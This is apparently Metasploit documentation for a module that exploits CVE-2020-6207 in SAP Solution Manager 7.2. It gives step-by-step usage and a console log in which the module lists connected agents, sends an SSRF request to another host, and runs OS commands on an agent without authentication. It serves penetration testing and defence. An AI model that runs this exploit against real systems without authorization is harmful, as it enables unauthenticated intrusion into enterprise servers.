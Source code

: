 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting SOAP requests to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF), and execute OS commands on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation of the vulnerability enables unauthenticated remote attackers to achieve SSRF and execute OS commands from the agent connected
to SolMan as a user from which the SMDAgent service starts, usually the daaadm.

Paper: [An Unauthenticated Journey to Root][1]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is tightly connected to all other SAP systems with high privileges.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining the enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][2].

Once set up and configured, the instances will be vulnerable on the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `set action LIST`
1. Do: `run`
1. Verify that a list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set SSRF_METHOD [GET, POST, PUT, DELETE, PATCH, ...]`
1. Do: `set SSRF_URI [SSRF uri, example - http://1.1.1.1/test.html]`
1. Do: `set action SSRF`
1. Do: `run`
1. Verify that the HTTP request from the connected agent has been sent.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set COMMAND [OS command, example - ping -c 4 1.1.1.1]`
1. Do: `set action EXEC`
1. Do: `run`
1. Verify that the OS command has been executed on the connected agent.

## Options

### URIPATH

This is the path to the EEM admin page of the SolMan that is vulnerable to CVE-2020-6207.
By default, it is set to `/EemAdminService/EemAdmin`. However, it can be changed if SolMan
was installed at a path different from that of the web root. For example, if the SolMan
server was proxied to the `/solman/` path under the web root, then this value would be
set to `/solman/EemAdminService/EemAdmin`.

### AGENT

Connected agent sever name.
Example: `linux_agent`

### SSRF_METHOD

HTTP method for sending HTTP request from a connected agent, the server name of which is specified in the `AGENT` option.
Example: `GET`

### SSRF_URI

URI for sending HTTP requests from a connected agent, the server name of which is specified in the `AGENT` option.
Example: `http://1.1.1.1/test.html`

### COMMAND

OS command for executing in connected agent, the server name of which is specified in the `AGENT` option.
Example: `ping -c 4 1.1.1.1`

## Actions
```
   Name  Description
   ----  -----------
   EXEC  Exec OS command on connected agent
   LIST  List connected agents
   SSRF  Send SSRF from connected agent
```

## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/cve_2020_6207_solman_rce
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION LIST
ACTION => LIST
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Getting a list of agents connected to the Solution Manager: 172.16.30.46
[+] Connected agents list:
+--------------+------------------------+---------------+------------------------+--------------+
| Server Name  | Host Name              | Instance Name | OS Name                | Java Version |
+--------------+------------------------+---------------+------------------------+--------------+
| test_linux   | SAPERP.corp.test.com   | SMDA98        | Linux                  | 1.8.0_25     |
| test_windows | SAP731.corp.test.com   | SMDA97        | Windows Server 2008 R2 | 1.6.0_29     |
+--------------+------------------------+---------------+------------------------+--------------+
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_METHOD PUT
SSRF_METHOD => PUT
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_URI http://192.168.50.2:9999/
SSRF_URI => http://192.168.50.2:9999/
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION SSRF
ACTION => SSRF
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[+] Send SSRF: 'PUT http://192.168.50.2:9999/ HTTP/1.1' from agent: test_linux
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set COMMAND ping -c 4 192.168.50.2
COMMAND => ping -c 4 192.168.50.2
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set action EXEC
action => EXEC
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[+] Execution command: 'ping -c 4 192.168.50.2' on agent: test_linux
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                            References
---------                ----          ----                                                            ----------
2021-03-21 10:31:36 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution  CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/SAP_EEM_CVE-2020-6207

```

[1]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[2]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/
